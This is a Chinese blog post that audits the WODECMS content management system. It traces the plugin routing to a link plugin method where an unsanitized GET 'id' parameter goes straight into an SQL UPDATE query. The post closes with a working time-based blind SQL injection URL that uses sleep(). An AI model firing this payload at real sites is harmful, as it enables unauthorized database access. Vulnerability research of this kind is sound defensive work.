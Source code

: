 ```yaml
---
layout:     post
title:      对wodecms的一次审计
subtitle:   
date:       2017-10-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - php
	- code audit
	- sql injection
---
```




## 0x01 前言  

  下载链接：[WODECMS开源内容管理系统](http://down.chinaz.com/soft/38302.htm)，这个cms的漏洞有前台注入，漏洞触发点是在插件里面的友情链接中。
## 0x02 分析
  我们先看根目录的plugins.php,30行这里实例化了类，
```php
$control = new Controller();
$control->Plugin();
```


<!--more-->


这里我们跟踪Controllor类和Plugin()方法，先看Plugin()方法，/WODECMS/core/controller.class.php中74行
```php
public function Plugin() {
		$module = StringUtil::new_html_special_chars ( $_GET ['dir'] );
		$controlFile = ROOT_PATH . '/plugins/' . $module . '/Main.class.php';
		if (! file_exists ( $controlFile )) {
			$this->setValue ( "error", '访问异常或者插件未安装' );
			$this->forward ( "error.html" );
			exit ();
		}
```

可以看到这里需要get传入一个dir参数，控制文件在/plugins/目录下的Main.class.php中，我们再看Main.class.php中14行和第173行
```php
class Main extends controller {
	public $objName = 'link';
......
......
    public function lock() {
    	$msgObj = new Msg();
        $_Obj = M($this->objName);
        $sql = "update ".$_Obj->table." set yz = 0 where id = " . $_GET['id'];
        $_Obj->query($sql);
        $msgObj->addMsg('warn', Config::lang("LOCKSUCCESS"));
        $this->linkSortList();
    }
```
这里意思是说，lock方法中，link经过M方法
```php
function M($modelName) {
	$baseClassPath = ROOT_PATH . '/' . APP_PATH . '/data/bean/' . $modelName . 'Base.class.php'; //base类,字段缓存
	$baseModelPath = ROOT_PATH . '/' . APP_PATH . '/model/' . $modelName . 'Action.class.php'; //action类
	if (! file_exists ( $baseClassPath )) {
		createFieldKeys ( $modelName ); //自动创建字段缓存
	}
	if (! file_exists ( $baseModelPath )) {
		createBaseModel ( $modelName ); //自动创建Action类
	}
	$modelName = $modelName . "Action";
	if (! class_exists ( $modelName, false )) {
		include ($baseClassPath);
		include ($baseModelPath);
	}
	! file_exists ( $baseModelPath ) && exit ( Config::lang ( "MODEL" ) . $modelName . Config::lang ( "NOTEXISTS" ) );
	! class_exists ( $modelName ) && exit ( Config::lang ( "MODEL" ) . $modelName . Config::lang ( "NOTDEFINED" ) );
	$model = new $modelName ();
	return $model;
}
```
被实例化，返回为一个$moudle，然后经过sql语句update操作，这里我们可以看到其中$_GET['id']没有保护，可造成注入。
  理清楚了路由规则后，我们可以开始构造exp:
```
http://localhost/plugins.php?dir=link&do=lock&id=1 and (select * from (select(sleep(8)))aaa)#
```
可以发现延时![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc8r0qm7j31e20mejsn.jpg)